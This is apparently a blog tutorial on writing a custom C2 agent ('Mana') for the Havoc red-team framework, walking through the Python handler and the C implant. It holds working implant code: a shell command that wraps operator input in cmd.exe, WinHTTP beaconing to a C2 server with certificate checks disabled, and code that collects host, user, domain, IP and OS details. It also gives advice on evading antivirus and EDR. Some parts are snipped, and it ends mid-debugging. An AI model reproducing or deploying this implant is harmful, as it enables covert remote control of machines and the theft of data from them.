





[back to blog](../blog.md)

Since theres no too much information or guide about creating a havoc agent I decided to create one. This blog will focus on creating a custom agent for havoc.

source code: https://github.com/damaidec/Mana-agent

* [Havoc custom C2 agent](#havoc-custom-c2-agent)
* [Setup](#setup)
* [Custom Agent](#custom-agent)
  * [Agent python](#agentpy)
  * [Executable Agent](#agent-executable)
    * [Transport](#transportc)
    * [Command](#commandc)
    * [Core](#corec)
    * [Main](#mainc)


# Why Build a Custom Agent?

There are a few pros and cons to consider when choosing between Havoc's built-in agent and a custom agent.

### Built-In Agent (Demon)

#### Pros
- Ready to use - simply generate and deploy
- 50+ built-in commands out of the box
- Supports Script Manager for BOFs - simply load and execute
- Well tested and reliable with minimal stability issues
- Contains advanced features like sleep masking, syscalls, and pivoting capabilities

#### Cons
- Highly signatured by AV/EDR vendors
- Requires modification of the main source code to evade detection or extend functionality (though this is manageable since it's open source)
- YARA rules exist publicly and defenders can study the source code

### Custom Agent

#### Pros
- Highly customizable - full control over implementation and behavior
- Not signatured by most AV solutions. For EDRs, detection depends on your implementation. For example, using `VirtualAlloc` for process injection will likely get flagged, but alternative techniques can evade detection.
- Complete control over agent behavior and communication patterns
- Extendable using your preferred language: C, C++, Rust, C#, Python, etc.
- Best of all - you gain a deep understanding of how C2 frameworks work internally, and it's fun to build

#### Cons
- Significant time investment required to develop and mature the features
- Limited features compared to Demon (only what you implement)
- Requires implementing your own COFF loader for BOF support (At the time of writing I am not sure yet if there is a way to connect the custom agent on the script manager)
- Rigorous testing required to ensure stability across different environments

# Havoc custom c2 agent
First of all we need to understand how custom agent and havoc server communicates, this blog is a good start to understand how it works. [1-understanding-the-interface](https://codex-7.gitbook.io/codexs-terminal-window/red-team/red-team-dev/extending-havoc-c2/third-party-agents/1-understanding-the-interface). I highly recommend to read that before continuing.

How It Works ?

1. Python Handler (agent.py): Acts as the bridge between the custom agent and Havoc. It connects to the teamserver via WebSocket and registers the agent type. When operators interact with the agent through the Havoc UI this handler processes the requests.
2. HTTP/s Listener: Havoc's listener receives HTTP requests from your agent. The teamserver identifies your agent by its Magic Value - a unique 4-byte identifier embedded in every packet.
3. Custom Agent (C): The compiled payload running on the target. It communicates via HTTP/s POST requests, sending serialized data and receiving tasks from the teamserver.

A typical command flow looks like this:
1. Operator types: shell whoami
2. Havoc queues task for agent
3. Agent sends: COMMAND_GET_JOB (0x101)
4. Server returns: [COMMAND_SHELL (0x152)][Length][cmd.exe /c whoami]
5. Agent executes command, captures output
6. Agent sends: [COMMAND_OUTPUT (0x200)][Length][DESKTOP\admin]
7. Output displayed in Havoc console

# Setup

First git clone this two repositories https://github.com/HavocFramework/havoc-py and https://github.com/HavocFramework/Talon. Talon will be used as a template and havoc-py is the python script that will be used in order to bridge the connection of the custom agent to havoc.

First go to havoc-py, and run the install.sh. Next move the Talon files inside the havoc-py. It should look similar to the screenshot below. All of Talon files like the Bin, Include, makefile, CMakeLists.txt, Talon.py and Source files should be inside the havoc-py.


Next go to include/Config.h and edit the host, port and user agent. Note it should match the profile. 

once done run `make` to build the executable file. Next edit the C2 profile and the Talon.py

on c2 profile there should be a service block, in order to use custom agent. This will allow the communications between the Talon.py back to Havoc c2 by interacting on the havoc api's.

```c
Service {
    Endpoint = "test"
    Password = "password1234"
}
```


```py
def main():
    Havoc_Talon: Talon = Talon()

    print( "[*] Connect to Havoc service api" )
    Havoc_Service = HavocService(
        endpoint="wss://127.0.0.1:40056/test",
        password="password1234"
    )

    print( "[*] Register Talon to Havoc" )
    Havoc_Service.register_agent(Havoc_Talon)

    return
```

Once done editing the profile and Talon.py. Run python3 Talon.py you should see a new agent registered.



Next generate a new payload and run it on a test windows VM, you should receive a new callback and now can interacts with it. However on Talon agent I am receiving issues wherein after a few mins it will say command not found as shown from the screenshot below. This is where I decided to create a custom agent.


Since the setup is working, next up is creating the custom agent.

# Custom agent

For this custom agent I will be creating a new folder and put all of the files I needed on havoc-py

Things that is needed are listed below. (Note all of this are based on my understanding on how it works, so if some of them are incorrect please let me know)

| Files | Details 
| -------- | -------- 
| agent.py | The Python handler responsible for communicating with Havoc API via WebSocket. Acts as a bridge between the custom agent and Havoc C2. Handles agent registration, task queuing, and response parsing.
| Transport.c/h | HTTP/s communication layer. Sends/receives data to/from C2 server using WinHTTP. Havoc uses POST requests. Contains TransportInit() for registration and TransportSend() for data transmission.
| Package.c/h | Serializes outgoing data from Agent to Server. Builds binary packets with structure: [SIZE][MAGIC][AGENT_ID][CMD][DATA].
| Parser.c/h | Deserializes incoming data from Server to Agent. Reads binary packets received from C2. 
| Commands.c | Implements built in agent commands.
| Main.c | Entry point. Initializes agent, handles registration loop, and invokes CommandDispatcher() when connected.
| Core.c/h | Agent initialization and utility functions. Contains ManaInit() to set up config, AnonPipeRead() for capturing process output, RandomNumber32() for AgentID generation.
| Mana.h | Main header defining the INSTANCE structure that holds agent state: session info, config, Win32 function pointers.
| Config.h | Auto-generated header containing listener configuration host, port, headers, sleep, jitter parsed from Havoc profile.

First create the file for Main.c, and agent.py. For transport.c, Package.c and Commands.c we can just copy paste it for now. The directory and file should looks like this.


## agent.py

These are standards and it covers the basic functionality for the agent

```py
# python imports
from base64 import b64decode
from havoc.service import HavocService
from havoc.agent import *

import os

# value for each of the command, this will be explained further on Transport.c These variables and values are used for identifier when we receive the POST request. If the data contains 0x152 then it means its related to shell command execution

# on these values you can change it however you like but it should match on the compiled agent later on.
COMMAND_REGISTER         = 0x100
COMMAND_GET_JOB          = 0x101
COMMAND_NO_JOB           = 0x102
COMMAND_SHELL            = 0x152
COMMAND_UPLOAD           = 0x153
COMMAND_DOWNLOAD         = 0x154
COMMAND_EXIT             = 0x155
COMMAND_OUTPUT           = 0x200
```

command class

```py

# ====================
# ===== Commands =====
# ====================

# I will be using only this example, since the other is almost the same.
class CommandShell(Command):
    CommandId = COMMAND_SHELL #This have a value of 0x152 if data contains 0x152 this will allow the agent to identify that, yup this value is for command shell
    Name = "shell"
    Description = "executes commands using cmd.exe"
    Help = ""
    NeedAdmin = False
    Params = [
        CommandParam(
            name="commands",
            is_file_path=False,
            is_optional=False
        )
    ]
    Mitr = []

    # you can think of something like this
    # On havoc UI, operator give a comamnd of shell whoami > it goes to the handler.py and job_generates > then it goes to the Agent, receives the command and parses the task and then returns 

    # Job generate
    def job_generate( self, arguments: dict ) -> bytes:

        # Create a Packer (Havoc's byte serializer)
        Task = Packer() 

        # Add command ID (so agent knows what command this is)
        Task.add_int( self.CommandId )
        # Add the actual command string
        Task.add_data( "c:\windows\system32\cmd.exe /c " + arguments[ 'commands' ] )

        #Return raw bytes
        return Task.buffer
```

For the agent we can just simply copy the class Talon.

```py
class Mana(AgentType):

 	Name = "Mana" # agent name
    #<SNIPPED>
    MagicValue = 0x6d616e61 # 'mana' Magic value is one of the most important part here, it allows the agent.py and havoc c2 to identify which agent is this. Use cyberchef and conver it to hex

    #<snipped> Arch is here but its pretty much self explanatory, x64 or x86 architecture

    # This is the output format of the payload, I will be adding dll,
    Formats = [
        {
            "Name": "Windows Executable",
            "Extension": "exe",
        },
        {
            "Name": "Windows DLL",
            "Extension": "dll",
        },
    ]

    # this is where agent configuration goes, like sleep, jitter, evasion stuffs and so on
    BuildingConfig = {
        "Sleep": "10"
    }

    #<snipped> commands goes here but pretty much self explanatory
    
    # comment is from the Talon.py so I wont be explaining it further

    # generate. this function is getting executed when the Havoc client requests for a binary/executable/payload. you can generate your payloads in this function.
    def generate( self, config: dict ) -> None:

        print( f"config: {config}" )

        # builder_send_message. this function send logs/messages to the payload build for verbose information or sending errors (if something went wrong).
        self.builder_send_message( config[ 'ClientID' ], "Info", f"hello from service builder" )
        self.builder_send_message( config[ 'ClientID' ], "Info", f"Options Config: {config['Options']}" )
        self.builder_send_message( config[ 'ClientID' ], "Info", f"Agent Config: {config['Config']}" )

        # make and cmake
        os.system("cmake . && make")

        # open .exe
        data = open("./Bin/Mana.exe", "rb").read()

        # build_send_payload. this function send back your generated payload
        self.builder_send_payload( config[ 'ClientID' ], self.Name + ".exe", data) # this is just an example.

    # this function handles incomming requests based on our magic value. you can respond to the agent by returning your data from this function.
    def response( self, response: dict ) -> bytes:

        agent_header    = response[ "AgentHeader" ]
        agent_response  = b64decode( response[ "Response" ] ) # the teamserver base64 encodes the request.
        response_parser = Parser( agent_response, len(agent_response) )
        Command         = response_parser.parse_int()

        if response[ "Agent" ] == None:
            # so when the Agent field is empty this either means that the agent doesn't exists.

            if Command == COMMAND_REGISTER:
                print( "[*] Is agent register request" )

                # Register info:
                #   - AgentID           : int [needed]
                #   - Hostname          : str [needed]
                #   - Username          : str [needed]
                #   - Domain            : str [optional]
                #   - InternalIP        : str [needed]
                #   - Process Path      : str [needed]
                #   - Process Name      : str [needed]
                #   - Process ID        : int [needed]
                #   - Process Parent ID : int [optional]
                #   - Process Arch      : str [needed]
                #   - Process Elevated  : int [needed]
                #   - OS Build          : str [needed]
                #   - OS Version        : str [needed]
                #   - OS Arch           : str [optional]
                #   - Sleep             : int [optional]

                RegisterInfo = {
                    "AgentID"           : response_parser.parse_int(),
                    "Hostname"          : response_parser.parse_str(),
                    "Username"          : response_parser.parse_str(),
                    "Domain"            : response_parser.parse_str(),
                    "InternalIP"        : response_parser.parse_str(),
                    "Process Path"      : response_parser.parse_str(),
                    "Process ID"        : str(response_parser.parse_int()),
                    "Process Parent ID" : str(response_parser.parse_int()),
                    "Process Arch"      : response_parser.parse_int(),
                    "Process Elevated"  : response_parser.parse_int(),
                    "OS Build"          : str(response_parser.parse_int()) + "." + str(response_parser.parse_int()) + "." + str(response_parser.parse_int()) + "." + str(response_parser.parse_int()) + "." + str(response_parser.parse_int()), # (MajorVersion).(MinorVersion).(ProductType).(ServicePackMajor).(BuildNumber)
                    "OS Arch"           : response_parser.parse_int(),
                    "SleepDelay"             : response_parser.parse_int(),
                }

                RegisterInfo[ "Process Name" ] = RegisterInfo[ "Process Path" ].split( "\\" )[-1]

                # this OS info is going to be displayed on the GUI Session table.
                RegisterInfo[ "OS Version" ] = RegisterInfo[ "OS Build" ] # "Windows Some version"

                if RegisterInfo[ "OS Arch" ] == 0:
                    RegisterInfo[ "OS Arch" ] = "x86"
                elif RegisterInfo[ "OS Arch" ] == 9:
                    RegisterInfo[ "OS Arch" ] = "x64/AMD64"
                elif RegisterInfo[ "OS Arch" ] == 5:
                    RegisterInfo[ "OS Arch" ] = "ARM"
                elif RegisterInfo[ "OS Arch" ] == 12:
                    RegisterInfo[ "OS Arch" ] = "ARM64"
                elif RegisterInfo[ "OS Arch" ] == 6:
                    RegisterInfo[ "OS Arch" ] = "Itanium-based"
                else:
                    RegisterInfo[ "OS Arch" ] = "Unknown (" + RegisterInfo[ "OS Arch" ] + ")"

                # Process Arch
                if RegisterInfo[ "Process Arch" ] == 0:
                    RegisterInfo[ "Process Arch" ] = "Unknown"

                elif RegisterInfo[ "Process Arch" ] == 1:
                    RegisterInfo[ "Process Arch" ] = "x86"

                elif RegisterInfo[ "Process Arch" ] == 2:
                    RegisterInfo[ "Process Arch" ] = "x64"

                elif RegisterInfo[ "Process Arch" ] == 3:
                    RegisterInfo[ "Process Arch" ] = "IA64"

                self.register( agent_header, RegisterInfo )

                return RegisterInfo[ 'AgentID' ].to_bytes( 4, 'little' ) # return the agent id to the agent

            else:
                print( "[-] Is not agent register request" )
        else:
            print( f"[*] Something else: {Command}" )

            AgentID = response[ "Agent" ][ "NameID" ]

            if Command == COMMAND_GET_JOB:
                print( "[*] Get list of jobs and return it." )

                Tasks = self.get_task_queue( response[ "Agent" ] )

                # if there is no job just send back a COMMAND_NO_JOB command.
                if len(Tasks) == 0:
                    Tasks = COMMAND_NO_JOB.to_bytes( 4, 'little' )

                print( f"Tasks: {Tasks.hex()}" )
                return Tasks

            elif Command == COMMAND_OUTPUT:

                Output = response_parser.parse_str()
                print( "[*] Output: \n" + Output )

                self.console_message( AgentID, "Good", "Received Output:", Output )

            elif Command == COMMAND_UPLOAD:

                FileSize = response_parser.parse_int()
                FileName = response_parser.parse_str()

                self.console_message( AgentID, "Good", f"File was uploaded: {FileName} ({FileSize} bytes)", "" )

            elif Command == COMMAND_DOWNLOAD:

                FileName    = response_parser.parse_str()
                FileContent = response_parser.parse_str()

                self.console_message( AgentID, "Good", f"File was downloaded: {FileName} ({len(FileContent)} bytes)", "" )

                self.download_file( AgentID, FileName, len(FileContent), FileContent )

            else:
                self.console_message( AgentID, "Error", "Command not found: %4x" % Command, "" )

        return b''
```

python main function

```py
def main():
    Havoc_Mana: Mana = Mana()

    print( "[*] Connect to Havoc service api" )
    # connects on havoc websocket, it should match what is included on the profile
    Havoc_Service = HavocService(
        endpoint="wss://127.0.0.1:40056/test",
        password="password1234"
    )

    print( "[*] Register Mana to Havoc" )
    Havoc_Service.register_agent(Havoc_Mana)

    return


if __name__ == '__main__':
    main()
```


Next test if the agent will be registered on havoc. As shown from the screenshots below it was successfuly registered.


Next step is to introduce new functions. What we want here is to make it dynamically create a config header file so it can match dynamically the havoc profile host, port, endpoint, useragent, headers, sleep and jitter when the payload is generated.

```py

PROFILE_PATH = "/home/kali/c2/Havoc/profiles/sample.yaotl" # path to c2 profile
CONFIG_OUTPUT = "./Include/Config.h" # output file of the config header

def HavocProfileParser(profile: str = PROFILE_PATH, listener_name: str = None) -> dict:
    """
    Parse Havoc profile and return listener config. Note this only parse the HTTP and HTTPs listener
    """
    #fields extracted
    FIELDS = {
        "Name": str,
        "Hosts": list,
        "PortBind": int,
        "Secure": bool,
        "UserAgent": str,
        "Uris": list,
        "Headers": list,
    }
    
 
    listeners = []
    current = {}
    in_http = False
    brace_depth = 0
    in_nested = False
    
    # read havoc profile, and extract the information related to the fields
    with open(profile, "r", encoding="utf-8") as f:
        for line in f:
            line = line.strip()
            
            if not line or line.startswith('#'):
                continue
            
            if re.match(r'^Http\s*\{', line):
                in_http = True
                brace_depth = 1
                in_nested = False
                current = {}
                continue
            
            if in_http:
                open_braces = line.count('{')
                close_braces = line.count('}')
                
                if open_braces > 0:
                    in_nested = True
                    brace_depth += open_braces
                    continue
                
                if close_braces > 0:
                    brace_depth -= close_braces
                    if brace_depth == 1:
                        in_nested = False
                    if brace_depth <= 0:
                        if current:
                            listeners.append(current.copy())
                        in_http = False
                        in_nested = False
                        current = {}
                    continue
                
                if in_nested:
                    continue
                
                if "=" in line:
                    key, value = map(str.strip, line.split("=", 1))
                    
                    if key not in FIELDS:
                        continue
                    
                    if value.lower() == "false":
                        value = "False"
                    elif value.lower() == "true":
                        value = "True"
                    
                    try:
                        current[key] = ast.literal_eval(value)
                    except (ValueError, SyntaxError):
                        current[key] = value
    
    if listener_name:
        for listener in listeners:
            if listener.get('Name') == listener_name:
                return listener
        return {}
    
    return listeners[0] if listeners else {}
```

The next function generates a config header for the C code based on the parsed havoc profile

```py
def generate_config_header(listener: dict, sleep: int, jitter: int, magic: int) -> str:
    """
    Generate config.h from listener configuration.
    """
    
    def c_escape(s):
        if s is None:
            return ""
        return str(s).replace('\\', '\\\\').replace('"', '\\"')
    
    # fallback values
    hosts = listener.get('Hosts', ['127.0.0.1'])
    port = listener.get('PortBind', 80)
    secure = listener.get('Secure', False)
    user_agent = listener.get('UserAgent', 'Mozilla/5.0')
    uris = listener.get('Uris', ['/'])
    headers = listener.get('Headers', [])
    
    host = hosts[0] if hosts else '127.0.0.1'
    endpoint = random.choice(uris) if uris else '/'
    
    # Build individual header defines
    header_defines = ""
    for i, h in enumerate(headers):
        header_defines += '#define CONFIG_HEADER_' + str(i) + ' L"' + c_escape(h) + '\\r\\n"\n'
    
    # Build headers array items (referencing the defines)
    header_array_items = ""
    for i in range(len(headers)):
        header_array_items += '    CONFIG_HEADER_' + str(i) + ',\n'
    
    config_h = f'''#include <windows.h>
// =============================================================================
// NETWORK CONFIGURATION (from Havoc Listener)
// =============================================================================
#define CONFIG_HOST         L"{c_escape(host)}"
#define CONFIG_PORT         {port}
#define CONFIG_SECURE       {'TRUE' if secure else 'FALSE'}
#define CONFIG_ENDPOINT     L"{c_escape(endpoint)}"
#define CONFIG_USER_AGENT    L"{c_escape(user_agent)}"

// =============================================================================
// TIMING CONFIGURATION (from Havoc Agent Settings)
// =============================================================================
#define CONFIG_SLEEP        {sleep * 1000}   // milliseconds
#define CONFIG_JITTER       {jitter}     // percentage (0-100)

// =============================================================================
// HTTP HEADERS (from Havoc Listener Profile)
// =============================================================================
{header_defines}#define CONFIG_HEADER_COUNT {len(headers)}

// Headers array for iteration
static LPCWSTR CONFIG_HEADERS[] = {{
{header_array_items}}};

// =============================================================================
// AGENT IDENTIFICATION
// =============================================================================
#define CONFIG_MAGIC        0x{magic:08X}
'''
    
    return config_h
```

Next function is the generate this is the one inside class Mana. What this function perform right now is it gets the listener name, jitter, sleep, parse the havoc profile, and generate the config.h based on the listner name used from the havoc UI.

```py
def generate(self, config: dict) -> None:
        """
        Generate payload - called from Havoc UI
        """
        print(f"config: {config}")
        
        # Get listener name from UI
        listener_name = config['Options']['Listener']['Name']
        
        # Get sleep/jitter from build config
        sleep = int(config['Config'].get('Sleep', '10'))
        jitter = int(config['Config'].get('Jitter', '20'))
        
        self.builder_send_message(config['ClientID'], "Info", f"[*] Listener: {listener_name}")
        self.builder_send_message(config['ClientID'], "Info", f"[*] Sleep: {sleep}s, Jitter: {jitter}%")
        
        # Parse profile to get listener config
        listener = HavocProfileParser(PROFILE_PATH, listener_name)
        
        if not listener:
            self.builder_send_message(config['ClientID'], "Error", f"[!] Listener '{listener_name}' not found!")
            return
        
        self.builder_send_message(config['ClientID'], "Good", f"[+] Found listener: {listener.get('Name')}")
        self.builder_send_message(config['ClientID'], "Info", f"    Host: {listener.get('Hosts', ['?'])[0]}:{listener.get('PortBind', '?')}")
        
        # Generate config.h
        config_h = generate_config_header(
            listener=listener,
            sleep=sleep,
            jitter=jitter,
            magic=self.MagicValue
        )
        
        # Write config.h
        with open(CONFIG_OUTPUT, 'w') as f:
            f.write(config_h)
        
        self.builder_send_message(config['ClientID'], "Good", f"[+] Generated: {CONFIG_OUTPUT}")
        
        # Build with cmake
        self.builder_send_message(config['ClientID'], "Info", "[*] Compiling...")
        os.system("cmake . && make")

        # Read compiled binary
        data = open("./Bin/Mana.exe", "rb").read()
        
        self.builder_send_message(config['ClientID'], "Good", f"[+] Size: {len(data)} bytes")

        # Send payload back
        self.builder_send_payload(config['ClientID'], self.Name + ".exe", data)
```

## Agent Executable

Next step is to create the executable file, for now what it needs is the executable should be able to connect to C2. I highly suggest to use port 80 here without any encryption on the post request so its easier to debug.

Next is step, setup the executable file for the agent. We can just simply copy and paste all of the source and include of Talon into our new custom agent. Later we will do modifications on the header and c files.

## Transport.c

For this agent its the one responsible for HTTP/HTTPS communication 

```c
#include <config.h> // the autogenerated file from compiling

#include <Talon.h> // this header contains the process and agent architecture, and instance structure

#include <Transport.h> // Initialize HTTP/HTTPS Connection to C2 Server
#include <Command.h> // This contains all of the hexadecimal value for the agent command, note that it should match what is included on the agent.py
#include <Core.h> // prints out hex value for debug purposes, when Talon agent run it shows in the console some hexadecimal values

//initialize the data needed for the agent

BOOL TransportInit( )
{
   <SNIPPED>

    // after the agent connects successfully and without an issue next step should be enabling the AES keys/IV

    // Add AES Keys/IV
    // PackageAddPad( Package, Instance.Config.AES.Key, 32 );
    // PackageAddPad( Package, Instance.Config.AES.IV,  16 );

    // As stated from the Agent.py it has the required registers

/*
    # Register info:
                #   - AgentID           : int [needed]
                #   - Hostname          : str [needed]
                #   - Username          : str [needed]
                #   - Domain            : str [optional]
                #   - InternalIP        : str [needed]
                #   - Process Path      : str [needed]
                #   - Process Name      : str [needed]
                #   - Process ID        : int [needed]
                #   - Process Parent ID : int [optional]
                #   - Process Arch      : str [needed]
                #   - Process Elevated  : int [needed]
                #   - OS Build          : str [needed]
                #   - OS Version        : str [needed]
                #   - OS Arch           : str [optional]
                #   - Sleep             : int [optional]
*/
    // Add session id/Agentid
    PackageAddInt32( Package, Instance.Session.AgentID );

    // Get Computer name
    if ( ! GetComputerNameExA( ComputerNameNetBIOS, NULL, (LPDWORD) &Length ) ) {
        if ((Data = LocalAlloc(LPTR, Length))) {
            GetComputerNameExA(ComputerNameNetBIOS, Data, (LPDWORD) &Length);

        }
    }

    //package the data for preparing it to be send as POST lateron
    PackageAddBytes( Package, Data, Length );
    DATA_FREE( Data, Length );

    // Get Username
    Length = MAX_PATH;
    if ( ( Data = LocalAlloc( LPTR, Length ) ) ){
        GetUserNameA( Data, (LPDWORD) &Length );
    }

    <SNIPPED>

    // Get Domain
    if ( ! GetComputerNameExA( ComputerNameDnsDomain, NULL, (LPDWORD) &Length ) ) {
        if ((Data = LocalAlloc(LPTR, Length))) {
            GetComputerNameExA(ComputerNameDnsDomain, Data, (LPDWORD) &Length);
        }
    }
    
    <SNIPPED>

    //The GetAdaptersInfo function can retrieve information only for IPv4 addresses.

    GetAdaptersInfo( NULL, (PULONG) &Length );
    
    <SNIPPED>

    PackageAddInt32( Package, GetCurrentProcessId() ); // get current PID
    PackageAddInt32( Package, (DWORD) 0 );
    PackageAddInt32( Package, Instance.Session.ProcArch ); // process architecture of the agent
    PackageAddInt32( Package, FALSE ); // default
    
    //windows OS version
    memset( &OsVersions, 0, sizeof( OsVersions ) );
    OsVersions.dwOSVersionInfoSize = sizeof( OsVersions );
    Instance.Win32.RtlGetVersion( &OsVersions );

    PackageAddInt32( Package, OsVersions.dwMajorVersion );
    PackageAddInt32( Package, OsVersions.dwMinorVersion );
    PackageAddInt32( Package, OsVersions.wProductType );
    PackageAddInt32( Package, OsVersions.wServicePackMajor );
    PackageAddInt32( Package, OsVersions.dwBuildNumber );

    PackageAddInt32( Package, Instance.Session.OSArch );
    PackageAddInt32( Package, Instance.Config.Sleeping );
    PackageAddInt32( Package, Instance.Config.Jitter );
    PackageAddInt32( Package, Instance.Config.Transport.KillDate );
    PackageAddInt32( Package, Instance.Config.Transport.WorkingHours );
    // End of Options / Register info

    PRINT_HEX( Data, Length )

    if ( PackageTransmit( Package, &Data, &Length ) )
    {
        printf("TRANSMITTED PACKAGE!\n");
        PRINT_HEX( Data, Length )

        if ( Data )
        {
            printf( "Agent => %x : %x\n", ( UINT32 ) DEREF( Data ), ( UINT32 ) Instance.Session.AgentID );
            if ( ( UINT32 ) Instance.Session.AgentID == ( UINT32 ) DEREF( Data ) )
            {
                printf("CONNECTED!\n");
                Instance.Session.Connected = TRUE;
                Success = TRUE;
            }
        }
        else
        {
            Success = FALSE;
        }
    }

    return Success;
}


//Next is transport send, this function is responsible for sending the HTTP/HTPs request

BOOL TransportSend( LPVOID Data, SIZE_T Size, PVOID* RecvData, PSIZE_T RecvSize )
{
    HANDLE  hConnect        = NULL;
    HANDLE  hSession        = NULL;
    HANDLE  hRequest        = NULL;
    LPWSTR  HttpEndpoint    = NULL;
    LPWSTR  HttpHeaders    = NULL;
    DWORD   HttpFlags       = 0;
    DWORD   HttpAccessType  = 0;
    LPCWSTR HttpProxy       = NULL;
    DWORD   BufRead         = 0;
    UCHAR   Buffer[ 1024 ]  = { 0 };
    PVOID   RespBuffer      = NULL;
    SIZE_T  RespSize        = 0;
    BOOL    Successful      = FALSE;

    //more info at https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpopen
    hSession = WinHttpOpen( Instance.Config.Transport.UserAgent, // Useragent should match on c2 profile
        HttpAccessType, //WINHTTP_ACCESS_TYPE_DEFAULT_PROXY
        HttpProxy, 
        WINHTTP_NO_PROXY_BYPASS, 
        0 
        );
    <SNIPPED>

    hConnect = WinHttpConnect( hSession, //session opened from winhttpopen
    Instance.Config.Transport.Host, // Target host
    Instance.Config.Transport.Port, // Target port
    0 );
    <SNIPPED>

    HttpFlags    = WINHTTP_FLAG_BYPASS_PROXY_CACHE;

    if ( Instance.Config.Transport.Secure ){
        HttpFlags |= WINHTTP_FLAG_SECURE;
    }

    // init a post request, make sure to edit the WinHTTPOpenRequest since on Talon it does not include the Endpoint/Uri
    hRequest = WinHttpOpenRequest(
        hConnect,
        L"POST",
        CONFIG_ENDPOINT,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        HttpFlags
    );

    if ( ! hRequest )
    {
        printf( "WinHttpOpenRequest: Failed => %d\n", GetLastError() );
        return FALSE;
    }

    if ( Instance.Config.Transport.Secure )
    {
        HttpFlags = SECURITY_FLAG_IGNORE_UNKNOWN_CA        |
                    SECURITY_FLAG_IGNORE_CERT_DATE_INVALID |
                    SECURITY_FLAG_IGNORE_CERT_CN_INVALID   |
                    SECURITY_FLAG_IGNORE_CERT_WRONG_USAGE;

        if ( ! WinHttpSetOption( hRequest, WINHTTP_OPTION_SECURITY_FLAGS, &HttpFlags, sizeof( DWORD ) ) )
        {
            printf( "WinHttpSetOption: Failed => %d\n", GetLastError() );
        }else{
            printf( "> WinHttpSetOption => %d\n", GetLastError() );

        }
    }

    // Set headers to match profile
    for (INT i = 0; i < CONFIG_HEADER_COUNT; i++) {
        WinHttpAddRequestHeaders(
            hRequest,
            CONFIG_HEADERS[i],
            -1,
            WINHTTP_ADDREQ_FLAG_ADD
        );
    }
    

    // send the post request initialized
    // Received the http response, and read data
    if ( WinHttpSendRequest( hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, Data, Size, Size, 0x0 ) )
    {
        if ( RecvData && WinHttpReceiveResponse( hRequest, NULL ) )
        {
            RespBuffer = NULL;
            do
            {
                Successful = WinHttpReadData( hRequest, Buffer, 1024, &BufRead );
                if ( ! Successful || BufRead == 0 )
                {
                    if ( ! Successful )
                        printf( "WinHttpReadData: Failed (%d)\n", GetLastError() );
                    break;
                }

                if ( ! RespBuffer )
                    RespBuffer = LocalAlloc( LPTR, BufRead );
                else
                    RespBuffer = LocalReAlloc( RespBuffer, RespSize + BufRead, LMEM_MOVEABLE | LMEM_ZEROINIT );

                RespSize += BufRead;

                memcpy( RespBuffer + ( RespSize - BufRead ), Buffer, BufRead );
                memset( Buffer, 0, 1024 );

            } while ( Successful == TRUE );

            if ( RecvSize )
                *RecvSize = RespSize;

            if ( RecvData )
                *RecvData = RespBuffer;

            Successful = TRUE;
        }
    }
    else
    {
        if ( GetLastError() == 12029 ) { // ERROR_INTERNET_CANNOT_CONNECT
            Instance.Session.Connected = FALSE;
        }else {
            printf("WinHttpSendRequest: Failed => %d\n", GetLastError());
        }
        Successful = FALSE;
        goto LEAVE;
    }

LEAVE:
    WinHttpCloseHandle( hSession );
    WinHttpCloseHandle( hConnect );
    WinHttpCloseHandle( hRequest );

    return Successful;
}
```

Now on all other c code and header file that was copy pasted from Talon agent, replace all TALON, Talon with MANA and Mana. The Talon.h should be also replaced with Mana.h

Run it and check if the agent will connect, ensure that you are using HTTP and wireshark is running to check if the URI/endpoint and headers are being properly sent.

As shown from the following screenshot below it connects, however I still cant send a command. The wireshark also gives correct uri, headers, and user agent.





## Command.c

Next step is to fix the command issue, and the agent registration/connectivity

Running the executable, it stops after the command dispatcher, its connected however its not getting any further

```py
TRANSMITTED PACKAGE!
Data: [4] [ ec 63 c7 24 ]
Agent => 24c763ec : 24c763ec
CONNECTED!
Command Dispatcher..
```

On the def response of agent.py, you can add print to show what was the command being issued. This show clearly that there is something wrong after its connecting, or after its connected. Also the 256 is in decimal however this is readable and no need to convert to hexadecimal.

```py
print(f"Command issued: {Command}")

The result is

[*] New Message
Command issued: 256
[*] Is agent register request
```

After debugging the issue was in the sleep in the Command.c, wherein it sleeps for a long time, which is why its just simply in idle. To fix this just remove the * 1000. Since on the Configh .h its already in milleseconds

```c
Sleep( Instance.Config.Sleeping * 1000 );
```

Next issue is that when it's in idle or no commands are sent, it's trying to re register and giving a value of 0x100.



